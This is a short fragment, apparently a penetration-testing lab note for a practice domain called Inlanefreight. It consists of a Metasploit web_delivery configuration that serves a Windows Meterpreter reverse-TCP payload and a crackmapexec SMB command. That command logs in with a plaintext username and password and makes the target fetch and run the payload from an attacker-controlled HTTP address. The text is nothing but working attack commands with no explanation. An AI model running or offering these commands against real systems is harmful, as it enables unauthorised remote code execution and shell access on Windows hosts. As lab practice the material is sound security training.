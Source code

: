 ```html
use exploit/multi/script/web_delivery
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set SRVHOST tun0
set SRVPORT 80
set target 2
set LPORT 445
run -j
```

- `crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M web_delivery -o URL=http://10.10.14.33:8443/2S1jAHS`